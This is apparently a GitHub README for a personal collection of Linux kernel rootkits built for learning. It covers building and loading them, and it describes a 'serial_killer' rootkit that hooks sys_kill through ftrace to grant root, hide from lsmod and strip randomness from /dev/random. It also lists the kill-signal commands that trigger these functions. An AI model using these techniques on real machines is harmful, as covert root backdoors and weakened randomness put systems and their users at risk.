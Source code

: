 # Rootkits
Contains multiple techniques use in rootkits.
Each sub directory contains custom rootkits that I made over the course of my learning. As of now, I have only created the serial_killer rootkit for learning purposes.

## Dependencies

### Ubuntu/Debian
```text
# sudo apt-get update;
# sudo apt-get -y install build-essential linux-headers-$(uname -r) 
```
## Centos
```text
# sudo yum check-update
# sudo yum update
# sudo yum install kernel-devel
```
## Fedora
```text
# sudo dnf check-update
# sudo dnf update
# sudo dnf install kernel-devel
```

## Compilation
```text
# cd /path/to/chosen/rootkit
# make
```

## Inject rootkit
```text
# sudo insmod rootkit.ko
```

## Remove rootkit
```text
# sudo rmmod rootkit.ko
```

## Serial Killer
This is my first rootkit that utitlises ftrace to hook onto `sys_kill` which does the following:

 1. Priviledge Escalation
 2. Hides its presence 
 3. Intercepting /dev/random and /dev/urandom to remove randomness.

 ### Commands
 ```text
kill -60 1 # Sets uid to 0
kill -60 0 # Sets uid to original

kill -61 1 # Hides itself from lsmod
kill -61 0 # Shows itself in lsmod

kill -62 1 # Activates randomness
kill -62 0 # Deactivates randomness
 ```
